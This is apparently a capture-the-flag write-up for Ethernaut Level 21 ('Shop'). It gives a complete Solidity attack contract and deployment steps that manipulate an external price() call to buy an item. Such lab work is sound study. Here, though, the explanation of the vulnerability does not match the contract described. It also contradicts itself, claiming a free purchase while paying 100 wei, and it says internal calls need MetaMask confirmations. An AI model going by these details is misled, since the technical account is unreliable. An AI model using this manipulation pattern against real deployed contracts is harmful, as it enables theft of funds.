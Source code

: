 # Level 21: Shop

## Challenge Overview

This level shows the danger of letting an external contract decide your price.  
In `Shop.buy()`, the shop first calls `Buyer(msg.sender).price()`.  
By returning a high price on the first call and zero on the second,  
a malicious buyer can pay the initial amount and then force the shop’s internal price to zero — allowing purchase for free.



## Solution

### 1. Correct Vulnerability Summary

- `Shop.buy()` does:

  1. `uint offered = Buyer(msg.sender).price();`  
  2. If `offered < price`, then `price = offered` and `sold = true`  
  3. `require(msg.value >= price);`

- By returning exactly `100` (the starting price) on the first `price()` call, you satisfy `require(msg.value >= 100)` without lowering the shop’s price (still 100).
- On the second call, returning `0` forces `price = 0` (since 0 < 100), and then `require(msg.value >= 0)` passes even with a 0 wei payment.



### 2. The “Malicious Buyer” Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Shop.sol";    // Shop interface has buy() and price() in this context
import "./Buyer.sol";   // Buyer interface: function price() external view returns (uint256)

contract ShopAttack is Buyer {
    Shop public shop;
    bool public firstCall = true;

    constructor(address _shopAddress) public {
        shop = Shop(_shopAddress);
    }

    // Called by Shop.buy() to query our price:
    // - First time: return 100 (equal to shop’s price; no update)
    // - Second time: return 0 (forces shop.price = 0, sold = true)
    function price() external override view returns (uint256) {
        if (firstCall) {
            return 100;
        }
        return 0;
    }

    // Kick off the exploit in two steps:
    function attack() external payable {
        // 1) First buy: send exactly 100 wei
        shop.buy{ value: 100 }();

        // Flip so next price() returns 0
        firstCall = false;

        // 2) Second buy: send 0 wei
        shop.buy{ value: 0 }();
    }
}
```



### Summary of Steps

1. We implement `Buyer.price()`.

2. On the first `price()` call we return `100` to satisfy `require(msg.value >= 100)`.

3. On the second, returning `0` forces `price = 0`, so paying `0` wei succeeds.



## 3. Steps to Deploy & Execute the Exploit

### 1. Compile

Compile `Shop.sol`, `Buyer.sol`, and `ShopAttack.sol` under Solidity `^0.6.0`.



### 2. Deploy the Shop First

- In Remix → **Deploy & Run Transactions** → **Injected Web3** (MetaMask).
- Select `Shop` and click **Deploy**.
- Copy its address (`shopAddr`).



### 3. Deploy the Attack Contract with the Shop’s Address

- Select `ShopAttack`, paste `shopAddr` into the constructor box, and click **Deploy**.
- Confirm in MetaMask.



### 4. Run the Exploit

- Under **Deployed Contracts → ShopAttack**, click the `attack()` button  
  (no additional ETH needed — the first call sends 100 wei internally).
- Confirm each internal purchase in MetaMask.



### 5. Verify

- Check `shop.sold()` in the console; it should now be `true`.
- Also `shop.price()` should be `0`.



### 6. Submit

- Submit the level in Ethernaut.



## Lessons Learned

- Don’t trust calls to unknown contracts for critical values like price.
- If you let a single transaction both update a price and check payment, a malicious caller can manipulate that update mid-transaction.
- Instead of calling an untrusted contract inside `buy()`, fetch fixed or pre-verified prices off-chain or enforce a maximum discount.
- Avoid patterns where a contract first queries external code, then immediately acts on that result in the same function, separating reads from writes ensures better safety.
